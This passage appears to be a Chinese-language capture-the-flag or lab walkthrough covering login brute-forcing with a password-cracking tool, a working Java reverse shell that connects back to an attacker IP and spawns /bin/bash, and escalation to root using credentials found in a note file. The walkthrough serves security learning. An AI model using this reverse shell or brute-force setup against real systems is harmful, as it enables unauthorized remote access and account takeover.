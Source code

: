 注意我们的post包 左边的圈就是我们需要设置的爆破的路径 类似/login.php这样的 右边的是详细的值 这里需要把我们输入的值改成^PASS^和^user^ 最后加上报错的信息

还有一个要注意的 就是假如说用户是固定的 eg 用户是admin name 后面的^user^也要改成admin

前面就是因为这个问题一直没爆破出来

![image.png](https://s2.loli.net/2025/05/01/rDdC4EKfXaZqx9i.png)

## 反弹shell

```
java 反弹shell
String host="10.17.40.203";
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
[[shell和提权#^5af79a]]

进去之后寻找脚本运行

![image.png](https://s2.loli.net/2025/05/01/qyobInrugsa4GpL.png)


反弹shell成功


## 提权
先信息收集一下
![image.png](https://s2.loli.net/2025/05/01/3TWfYaEJQe19ud5.png)

![image.png](https://s2.loli.net/2025/05/01/sGSV5pHOABP3yiR.png)


![image.png](https://s2.loli.net/2025/05/01/x9ObB2UAfcJyrT3.png)


![image.png](https://s2.loli.net/2025/05/01/mJoSjcn5Lrhz6E3.png)

![image.png](https://s2.loli.net/2025/05/01/fFHhN9iQZdcjrPq.png)

这个note.txt有点可疑

![image.png](https://s2.loli.net/2025/05/01/QX7KsT15DIJC8o2.png)


居然发现了root账户密码 兴高采烈的去切换用户 结果发现压根用不了sudo 和su

只能另请高明  在之前的用户那里直接可以用这个凭证su到root权限 无需别的操作

